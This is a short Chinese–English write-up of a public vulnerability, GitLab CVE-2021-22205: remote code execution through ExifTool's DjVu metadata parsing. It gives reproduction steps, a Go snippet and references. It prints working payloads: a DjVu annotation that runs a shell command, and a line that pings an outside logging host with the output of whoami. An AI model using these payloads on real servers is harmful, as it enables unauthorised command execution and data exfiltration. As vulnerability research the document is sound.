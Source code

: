 ```yaml
---
layout: about
category: about
Researchname: GitLab CVE-2021-22205 snippet RCE
permalink: /about/Gitlab-RCE-with-snippet-function/
author: Bin4xin
desc: 「Gitlab」
---
```


### 复现

- Create a new snippet
- 登录创建一个仓库，并且创建新的`snippet`
- In the description field, hit `"Attach a file"`; Select and uplaod echo_vakzz.jpg
- [`echo_vakzz.jpg`](https://github.com/Bin4xin/bigger-than-bigger/blob/master/CoVV/Gitlab/CVE-2021-22205/echo_vakzz.jpg){:target="_blank"}上传附件
- See that the file /tmp/vakzz has been created on the server

也可以通过未授权RCE，具体可以查看[(CVE-2021-22205)RCE - 七、手工复现-未授权](https://www.freebuf.com/articles/web/303375.html){:target="_blank"}

> 制作rce图片可直接编辑，修改下面的代码就好；或者上面的文章中
>
> **[六、手工复现-有授权 - 2 DjVu格式图片制作方式]**
>
> 也有相应的制作方法。

```ruby
qx{ping `whoami`.5pxha.i3ntq7.bnslog.top}
```

### 效果

![May-18-2022-11-27-15.gif]({{site.PicturesLinks_Domain}}/images/2022/05/18/May-18-2022-11-27-15.gif)

### 分析

如作者在报告里所说：

- When uploading image files, GitLab Workhorse passes any files with the extensions `[jpg|jpeg|tiff]` through to ExifTool to remove any non-whitelisted tags.
- 上传图像文件时，`GitLab Workhorse` 会将任何扩展名为 `jpg|jpeg|tiff` 的文件传递给 `ExifTool`，以删除任何未列入白名单的标签。

```go
func IsExifFile(filename string) bool {
	filenameMatch := regexp.MustCompile(`(?i)\.(jpg|jpeg|tiff)$`)

	return filenameMatch.MatchString(filename)
}
```

- One of the supported formats is DjVu. When parsing the DjVu annotation, the tokens are evaled to "convert C escape sequences".

```perl
(metadata
	(Copyright "\
" . qx{echo vakzz >/tmp/vakzz} . \
" b ") )
```

### 参考

- [HackerOne - RCE when removing metadata with ExifTool](https://hackerone.com/reports/1154542){:target="_blank"}
- [GitLab 远程命令执行漏洞复现(CVE-2021-22205)](https://www.freebuf.com/articles/web/303375.html){:target="_blank"}